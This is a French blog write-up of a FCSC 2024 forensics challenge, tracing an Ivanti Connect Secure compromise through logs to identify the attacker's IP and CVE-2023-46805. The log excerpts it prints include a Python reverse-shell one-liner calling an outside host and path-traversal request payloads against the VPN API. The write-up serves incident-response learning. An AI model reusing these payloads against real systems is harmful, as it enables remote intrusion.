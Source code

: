```yaml
---
title: "VPN compromis : analyse de la CVE-2023-46805 Ivanti"
date: 2024-04-15T14:06:22+02:00
draft: false
---
```


*Challenge "Horreur Malheur 2/5 Accès initial" du [FCSC 2024](https://france-cybersecurity-challenge.fr/).*

## Abstract

Ce challenge nous met sur les traces des CVE qui ont impactées les produits Ivanti fin 2023-début 2024. En identifiant les IPs, on observe que l'une d'entre elle a installé un reverse shell sur la machine hôte. Une analyse des logs de l'équipement et d'un exploit nous permet d'identifier précisément la CVE.

---

Le challenge nous donne accès aux journaux d'un équipement compromis. L'objectif est de trouver l'adresse IP de l'attaquant ainsi que la CVE utilisée. Un indice est donné dans l'énoncé : 

> En arrivant à votre bureau le premier jour, vous vous rendez compte que votre prédécesseur vous a laissé une clé USB avec une note dessus : VPN compromis (intégrité). Version 22.3R1 b1647.

Le début est toujours un peu compliqué, étant donné qu'on ne sait pas vraiment ce qu'on observe, quelles sont les technologies utilisées etc... J'ai pour habitude d'ouvrir la plupart des fichiers et de les parcourir succinctement afin de voir à quoi j'ai à faire. En l'occurrence, des logs web et les processus d'une machine.

## Identification de l'IP de l'attaquant

Je fais un regex qui va m'extraire toutes les IPs des logs afin de voir la taille du périmètre. Je pourrai ensuite peut-être identifier des comportements anormaux d'après ces IPs.

```bash
grep -REoh '\b([0-9]{1,3}\.){3}[0-9]{1,3}\b'
```

Cette commande nous sort beaucoup d'adresses similaires, j'ai redirigé la sortie vers un fichier que je traite ensuite avec un script python pour extraire les IPs uniques. On a quelques faux positifs comme des numéros de versions ou ce genre de choses. Heureusement, il n'y a "que" 21 sorties, on peut rechercher chaque ligne avec `grep` pour trier les vraies IP des numéros de version. Cette méthode a l'avantage de nous faire commencer par `20.13.3.0` qui produit un résultat très suspect :

```bash

> grep -R '20\.13\.3\.0'
nodemonlog:21969     1  0.0  0.0 S   452   4852  3808 /bin/sh -c /home/perl5/bin/perl /home/perl/AwsAzureTestConnection.pl ;python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i"'
[...]
nodemonlog:web        6264     root   23u     IPv6            1707721       0t0        TCP 172.18.0.4:https->20.13.3.0:55102 (ESTABLISHED)
nodemonlog:python    21971     root    3u     IPv4            1465043       0t0        TCP 172.18.0.4:13606->20.13.3.0:krb524 (ESTABLISHED)
nodemonlog:sh        21972     root    0u     IPv4            1465043       0t0        TCP 172.18.0.4:13606->20.13.3.0:krb524 (ESTABLISHED)
```

Le premier match semble être un reverse shell en Python qui initie une connexion vers `20.13.3.0:4444` pour démarer un shell interactif (`/bin/sh -i`). Les lignes suivantes montrent les connexions sortantes ce qui confirme que le code malveillant a fonctionné.

> A noter que les logs contiennent des traces d'autres payloads qui semblent cibler `uWSGI` (je vous laisserai les chercher :p). Ce sont peut-être des scanns automatisés qui passaient par là. Des CVEs existent avec des payloads ressemblant, ce qui m'a fait perdre pas mal de temps et des tentatives de flag (au bout de 10 mauvais flags, le challenge se bloquait).

## Ivanti Connect Secure

On est sur un service web avec des logs et on voit que `/api/v1/cav/client/` est commun à toutes les requêtes. Si on cherche cet endpoint sur internet, on trouve des mentions de CVE sur Ivanti Pulse Connect Secure : [High Signal Detection and Exploitation of Ivanti's Pulse Connect Secure Auth Bypass & RCE](https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce).

Ou bien, on peut utiliser l'indice de l'énoncé : *"VPN compromis (intégrité). Version 22.3R1 b1647"*, on trouvera la technologie utilisée et les CVE associées.

On a 2 CVEs possibles : CVE-2023-46805 (Authentication Bypass) & CVE-2024-21887 (Remote Command Execution). Il reste à trouver la bonne, ce qui n'est pas simple puisqu'elles sont souvent liées dans les articles qui y font mention.

> A noter qu'il est fait mention d'un nouveau payload pour la CVE-2023-46805, `/api/v1/cav/client/status/../../admin/options`, mais il n'y a pas cette trace dans les logs.

En creusant, j'ai trouvé deux exploits sur Github : 
- [CVE-2023-46805.sh](https://github.com/duy-31/CVE-2023-46805_CVE-2024-21887/blob/main/CVE-2023-46805.sh)
- [CVE-2024-21887.sh](https://github.com/duy-31/CVE-2023-46805_CVE-2024-21887/blob/main/CVE-2024-21887.sh)

Elles ciblent l'endpoint `/api/v1/totp/user-backup-code/` avec un path traversal, qui est aussi présent dans nos logs :

```bash
> grep -R '/api/v1/totp/user-backup-code/'

config_rest_server.log.old:[pid: 6299|app: 0|req: 1/1] 172.18.0.4 () {30 vars in 501 bytes} [Fri Mar 15 06:29:17 2024] POST /api/v1/totp/user-backup-code/../../system/maintenance/archiving/cloud-server-test-connection => generated 14 bytes in 164281 msecs (HTTP/1.1 200) 2 headers in 71 bytes (1 switches on core 0)
```

On semble être sur la bonne voie. Néanmoins, la CVE-2024-21887 effectue un path traversal sur l'endpoint `/license/keys-status/` qui n'est pas présent dans nos logs. De plus, la vulnérabilité nécessite un payload encodé qui n'est pas non plus présent. Enfin, la CVE-2023-46805 utilise un path traversal pour se rendre dans `system/`, c'est aussi ce qu'on retrouve dans les logs. Cet article confirme que c'est bien la vulnérabilité de 2023 qui a été exploitée : [Ivanti Connect Secure Auth Bypass and Remote Code Authentication CVE-2024-21887](https://www.iblue.team/incident-response-1/ivanti-connect-secure-auth-bypass-and-remote-code-authentication-cve-2024-21887). On y retrouve le même reverse shell.